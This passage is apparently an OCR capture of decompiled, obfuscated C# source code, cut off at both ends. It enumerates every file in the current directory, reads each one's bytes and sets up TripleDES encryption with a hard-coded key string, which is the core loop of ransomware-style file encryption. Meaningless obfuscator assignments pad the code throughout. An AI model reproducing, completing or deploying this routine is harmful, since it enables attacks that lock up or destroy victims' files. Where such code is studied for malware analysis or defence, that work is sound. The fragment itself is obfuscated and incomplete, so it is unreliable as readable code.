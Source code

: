```
	};
	<Module>.h = 2081625616;
	byte[] array2 = array;
	string currentDirectory = Directory.GetCurrentDirectory();
	<Module>.k = -1592258590;
	<Module>.a = null;
	int num = 1386028750;
	int l = -1437277352;
	<Module>.n = -1592516334;
	<Module>.l = l;
	<Module>.d = num;
	string[] files = Directory.GetFiles(currentDirectory, "*.*");
	<Module>.n = 2136656571;
	string[] array3 = files;
	<Module>.d = null;
	string[] array4 = array3;
	int num2 = 0;
	bool flag;
	<Module>.g = flag;
	string text2;
	for (;;)
	{
		<Module>.k = 1326660401;
		<Module>.e = 1818084011;
		int num3 = num2;
		string[] array5 = array4;
		<Module>.j = -1529522494;
		bool flag2 = num3 < array5.Length;
		<Module>.o = 1526447315;
		<Module>.j = 1987339265;
		flag = flag2;
		bool flag3 = flag;
		<Module>.a = null;
		if (!flag3)
		{
			break;
		}
		<Module>.j = 1845842485;
		TripleDESCryptoServiceProvider tripleDESCryptoServiceProvider;
		<Module>.c = tripleDESCryptoServiceProvider;
		text2 = array4[num2];
		try
		{
			<Module>.q = -759738571;
			<Module>.b = null;
			<Module>.q = 1898371779;
			string path = text2;
			a.b = flag;
			byte[] array6 = File.ReadAllBytes(path);
			<Module>.g = null;
			a.b = "185ee01d-8c67-459c-9586-6804417e592ce434881f-7f35-4ffd-bdf6-4a1f244e25084e41b92d-afec-";
			<Module>.d = null;
			byte[] array7 = array6;
			<Module>.h = 1308380089;
			tripleDESCryptoServiceProvider = new TripleDESCryptoServiceProvider();
			SymmetricAlgorithm symmetricAlgorithm = tripleDESCryptoServiceProvider;
			Encoding ascii = Encoding.ASCII;
			string s = text;
			<Module>.k = 401140706;
			symmetricAlgorithm.Key = ascii.GetBytes(s);
			<Module>.o = 1203310366;
			SymmetricAlgorithm symmetricAlgorithm2 = tripleDESCryptoServiceProvider;
```